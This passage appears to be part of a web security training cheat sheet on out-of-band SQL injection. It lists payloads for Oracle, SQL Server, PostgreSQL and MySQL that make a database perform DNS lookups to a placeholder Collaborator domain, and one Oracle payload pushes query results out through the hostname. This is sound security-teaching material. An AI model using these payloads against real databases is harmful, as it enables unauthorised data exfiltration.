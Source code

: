             You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use <a href="/burp/documentation/desktop/tools/collaborator">Burp Collaborator</a> to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.
        </p><table class="is-nonresponsive-table">
            <tr>
                <th>
                    Oracle
                </th>
                <td>
                    <p>(<a href="/web-security/xxe">XXE</a>) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:</p>
                    <code>SELECT EXTRACTVALUE(xmltype('&lt;?xml version="1.0" encoding="UTF-8"?&gt;&lt;!DOCTYPE root [ &lt;!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"&gt; %remote;]&gt;'),'/l') FROM dual</code>
                    <p>The following technique works on fully patched Oracle installations, but requires elevated privileges:</p>
                    <code>SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')</code>
                </td>
            </tr>
            <tr>
                <th>
                    Microsoft
                </th>
                <td><code>
                    exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'
                </code></td>
            </tr>
            <tr>
                <th>
                    PostgreSQL
                </th>
                <td><code>
                    copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'
                </code></td>
            </tr>
            <tr>
                <th>
                    MySQL
                </th>
                <td>
                    <p>The following techniques work on Windows only:</p>
                    <code>LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')</code><br>
                    <code>SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'</code>
                </td>
            </tr>
        </table><h2 id="dns-lookup-with-data-exfiltration">DNS lookup with data exfiltration</h2><p>
            You can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. To do this, you will need to use <a href="/burp/documentation/desktop/tools/collaborator">Burp Collaborator</a> to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltrated data.
        </p><table class="is-nonresponsive-table">
            <tr>
                <th>
                    Oracle
                </th>
                <td><code>
                    SELECT EXTRACTVALUE(xmltype('&lt;?xml version="1.0" encoding="UTF-8"?&gt;&lt;!DOCTYPE root [ &lt;!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"&gt; %remote;]&gt;'),'/l') FROM dual
                </code></td>
            </tr>
            <tr>